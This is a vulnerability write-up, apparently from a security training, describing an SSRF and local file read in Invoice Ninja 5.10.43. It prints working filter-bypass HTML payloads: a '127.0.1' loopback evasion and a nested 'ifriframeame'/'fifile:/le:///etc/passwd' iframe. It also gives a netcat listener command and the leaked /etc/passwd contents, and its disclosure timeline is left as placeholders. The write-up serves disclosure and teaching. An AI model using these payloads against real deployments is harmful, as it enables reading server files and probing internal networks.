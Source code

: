 ```yaml
---
author: "Branko & Laluka"
title: "Invoice Ninja - Server Side Request Forgery"
slug: "invoice-ninja-5.10.43-ssrf-file-read"
date: 2024-12-22
description: "Our writeup is the consequence of the Laluka's mastery and Branko's wish to learn semething new. More of the Laluka's mastery though. It will go through the description and reproduction of our new found vulnerability in invoicing application called Invoice Ninja. It is about the Server Side Request Forgery found during the white box code review session at OffenSkill level 30 training."
---
```


# Invoice Ninja - Server Side Request Forgery

## Introduction

This class was focused on white-box code review of Invoice Ninja.\
Invoice Ninja is a Larvel based invoicing software found here [Invoice Ninja](https://invoiceninja.com/).\
The source code is available in their [Invoice Ninja Github](https://github.com/invoiceninja/invoiceninja), and the version we have had a chance to rest is `Invoice Ninja:5.10.43`.

The application creators are introducing their product as follows:

> A source-available invoice, quote, project and time-tracking app built with Laravel.

In this writeup we'll cover a two stories of a full read Server Side Request Forgery.\
One is providing us with outbound connections and the othervone is allowing us to read internal files.\

## Server Side Request Forgery

### Vulnerability details

Our Docker based lab was a training bed for our new found Server Side Request Forgery vulnerability. Server Side Request Forger is allowing us to read almost all internal file and make outbound connections as well. I say almost, as we have the limitation in reading /proc/self/environ and /etc/shadow. As for /proc/self/environ this seems to be problem in Headless Chrome, which is our rendering machine. And /etc/shadow, well one needs to be a root user on any Linux Kernel based machine to read it anyhow. So apart from those two, our SSRF is reaching any file wewish and any external IP address / Host.

### Walkthrough

I will start with the introduction to the part of our new found vulnerability where potential attacker can make outbound connections to external hosts. 

If we create a new invoice and open it in the editing mode, navigate to text editor and click "source code" button. We should be able to edit the invoice in HTML mode. 

<img class="img_full" src="/offenskill/invoice-ninja-5.10.43-ssrf-file-read/1.png" alt="Screenshot of Invoice Ninja Invoice editor">

From there we can try add a payload like this:

`<img src="http://127.0.0.1:8000/" alt="W3Schools.com">`

<img class="img_full" src="/offenskill/invoice-ninja-5.10.43-ssrf-file-read/2.png" alt="Screenshot of Invoice Ninja Invoice editor">

and in our terminal open the connection with netcat like this:

nc -lnvp 8000 -s 127.0.0.1

We wouldn't get too far. The reason is that Invoice Ninja has a security measure which will block our inital attempt and wipe down our payload.

The reason lays in this pice of code:

str_ireplace(['file:/', 'iframe', '<object', '127.0.0.1', 'localhost'], '', $html);

By looking in to it, we can say that it's time to create a bit different payload and go around that security measure. By creating a payload, which looks like this:

`<img src="http://127.0.1:8000/" alt="W3Schools.com">`

and by saving the invoice. Invoice Ninja will make the callback to our Netcat listener. 

<img class="img_full" src="/offenskill/invoice-ninja-5.10.43-ssrf-file-read/3.png" alt="Screenshot of Invoice Ninja connecting to our Netcat listener">

From this point I would jump staright to the other part of Invoice Ninja and explain how would a potential attacker be able to read the internal files.

If we navigate to "Settings" , then "Invoice design" , then "Custom designs" and click on "Design". Choose "Body" and replace the body html code with our Proof of Concept code:

`AA<ifriframeame  style="background: #FFFFFF; position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;"  width="1000" height="1000" src="fifile:/le:///etc/passwd/"/>BB`

<img class="img_full" src="/offenskill/invoice-ninja-5.10.43-ssrf-file-read/5.png" alt="Screenshot of Invoice Ninja Invoice Settings">

A short input about our PoC is following. If we would have formed our Proof of Concept like this:

`AA<iframe  style="background: #FFFFFF; position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;"  width="1000" height="1000" src="file:///etc/passwd/"/>BB`

the security measure inculded in Invoice Ninja would strip our PoC down and we wouldn't be able to read any files. But if we change iframe to ifriframeame and `file:///etc/passwd/`.

to `fifile:/le:///etc/passwd/` we will mitigate the Invoice Ninja security and have a full file read. So by requesting `fifile:/le:///etc/passwd/` the application will

throw out the contents of a passwd file without any problems and looks as nice as this:

```text
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
invoiceninja:x:1500:1500::/var/www/app:/bin/sh
```

A true eye candy for every Security Ninjah. :)

## Timeline

- ??/??/???? - Initial contact with `invoice-ninja-security@invoice-ninja.com`
- ??/??/???? - foo
- ??/??/???? - bar

## Credits : Training lvl-30 | 2024 October

Attendees:

- Branko Brkic / [@brank0x42](https://twitter.com/brank0x42)

> Join the next Web Security Trainings at [Offenskill](https://offenskill.com/trainings/)

